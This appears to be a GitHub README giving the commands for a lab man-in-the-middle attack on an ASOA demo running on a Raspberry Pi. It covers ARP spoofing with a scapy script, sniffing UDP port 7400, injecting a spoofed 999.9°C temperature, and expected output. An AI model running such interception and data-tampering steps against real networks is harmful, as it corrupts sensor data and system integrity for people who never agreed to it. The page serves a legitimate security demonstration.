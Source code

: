# 🎯 FINAL MITM ATTACK COMMANDS

## **Copy Files to Mac (Run on Mac Terminal):**

```bash
# 1. Remove existing folder and create fresh one
rm -rf ~/Desktop/ASOA_Projects
mkdir -p ~/Desktop/ASOA_Projects

# 2. Copy all ASOA code from Raspberry Pi
scp -r pi@192.168.1.101:/home/pi/Documents/Development/asoa_demo_my_machine_setup/ ~/Desktop/ASOA_Projects/
scp -r pi@192.168.1.101:/home/pi/Documents/Development/asoa_advanced_mitm/ ~/Desktop/ASOA_Projects/
scp -r pi@192.168.1.101:/home/pi/Documents/Development/asoa/ ~/Desktop/ASOA_Projects/
```

## **Setup MITM Attack (Run on Mac Terminal):**

```bash
# 1. Navigate to attack folder
cd ~/Desktop/ASOA_Projects/asoa_advanced_mitm

# 2. Install dependencies (one-time setup)
sudo ./setup_mac.sh

# 3. Install Python scapy (if needed)
sudo pip3 install scapy
```

## **🎯 FINAL ATTACK COMMAND:**

```bash
# Navigate to attack folder
cd ~/Desktop/ASOA_Projects/asoa_advanced_mitm

# Run the MITM attack (replace 192.168.1.101 with your Pi's IP)
sudo python3 simple_mitm_attack.py 192.168.1.101 999.9
```

## **📡 Monitor Network Traffic:**

```bash
# In a separate terminal, monitor UDP traffic
sudo tcpdump -i any -n udp port 7400
```

## **🛑 Stop Attack:**

```bash
# Press Ctrl+C in the attack terminal
```

## **📊 Expected Output:**

```
🎯 Target: 192.168.1.101
🌐 Gateway: 192.168.1.1
🌡️ Spoofed Temperature: 999.9°C
🚀 Starting ASOA MITM Attack...
🔄 Starting ARP spoofing...
📡 Starting packet sniffing on UDP port 7400...
📡 Intercepted ASOA packet #1: 192.168.1.101:12345 -> 192.168.1.101:7400
🌡️ Found temperature value: 15.3°C
🌡️ Temperature modified to 999.9°C
💉 Sent modified packet to 192.168.1.101:7400
```

## **🎉 Success Indicators:**

✅ **Attack Running**: ARP spoofing and packet sniffing active
✅ **Packets Intercepted**: UDP traffic on port 7400 captured
✅ **Temperature Modified**: Values changed from 10-30°C to 999.9°C
✅ **Dashboard Updated**: Raspberry Pi shows modified temperature

## **⚠️ Troubleshooting:**

If you get permission errors:
```bash
sudo pip3 install --user scapy
```

If you get import errors:
```bash
python3 -c "import scapy; print('Scapy works')"
```

If no packets are intercepted:
1. Check Pi IP address is correct
2. Ensure ASOA services are running on Pi
3. Verify both devices are on same network

---

**🎯 RESULT**: Temperature values in Raspberry Pi Dashboard should change from normal (10-30°C) to spoofed (999.9°C)!
